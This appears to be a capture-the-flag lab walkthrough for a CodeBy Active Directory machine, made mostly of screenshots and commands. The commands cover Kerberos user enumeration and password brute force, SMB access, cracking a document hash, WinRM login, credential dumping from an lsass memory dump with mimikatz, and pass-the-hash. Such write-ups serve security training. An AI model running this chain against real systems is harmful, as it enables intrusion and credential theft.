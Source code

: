 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c16212f1-d41a-4d2b-a75a-691ecc0b5fe8)
```
nmap -p- 192.168.2.6 -v -sC -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d7b61cca-0808-4a02-ab7c-560608ea7f29)
```
enum4linux-ng 192.168.2.6
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bd453887-4dea-4225-9bde-d773b70e44ad)
```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.6 /home/kali/PayloadsAllTheThings/SecLists/SecLists/Usernames/xato-net-10-million-usernames.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/941e6f33-2a43-40df-bdf1-511c56f6a494)
```
./kerbrute_linux_amd64 bruteuser -d codeby.cdb --dc 192.168.2.6 /home/kali/PayloadsAllTheThings/SecLists/SecLists/Passwords/xato-net-10-million-passwords-10000.txt ekaterina
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8035c75c-d20f-4708-83b9-df86047e220a)
```
enum4linux-ng 192.168.2.6 -u 'ekaterina' -p 'ekaterina'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/24d96388-7794-41b7-9e51-8470c4dec474)
```
smbmap -u "ekaterina" -p "ekaterina" -d codeby.cdb -H 192.168.2.6
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f120e4b2-c956-4931-bf30-571290b37ac1)
```
smbclient //192.168.2.6/Ekaterina -U ekaterina
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3c3a1463-1afb-4b0b-a082-19dedf55245a)
```
office2john confidental.docx > hash.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2dd71b05-1859-4077-80c0-f9bbd6130c9e)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt hash.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bdd4cc23-4bf3-4758-8517-39ff59e2c009)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4ca25d04-9f63-41fc-81e9-67b453f73b1f)

```
evil-winrm -i 192.168.2.6 -u a.gusev -p PASS
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/21b7a047-2c2a-4acf-8ce9-40963bd38006)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9be9c7c3-539a-4892-84bf-68fa22459e4f)
```
./winPEASx64.exe
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3ff5fb9d-e967-4246-ad95-60f10c375f16)

https://github.com/ParrotSec/mimikatz

https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/58cf134e-77aa-4dae-a0bb-d023e6aa3202)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e5a12c41-4ea3-4d8f-b270-c8411f9670c9)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2847bb9f-f903-470a-9b16-86c2051ed083)

Спасибо @Alex_Gubich

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md#mini-dump

```
.\mimikatz.exe "sekurlsa::minidump C:\Users\a.gusev\AppData\Local\Microsoft\Windows\lsass.dmp" "sekurlsa::logonPasswords" "exit"
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e94d1e30-12f2-4784-93ad-eac13c0e0a39)

```
evil-winrm -i 192.168.2.6 -u exited3n -H NTLM_HASH
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b7db4e0d-d59d-4767-a31e-fb72eb208fe1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6f3d0cfc-9f51-44a0-a619-d237e9ece127)

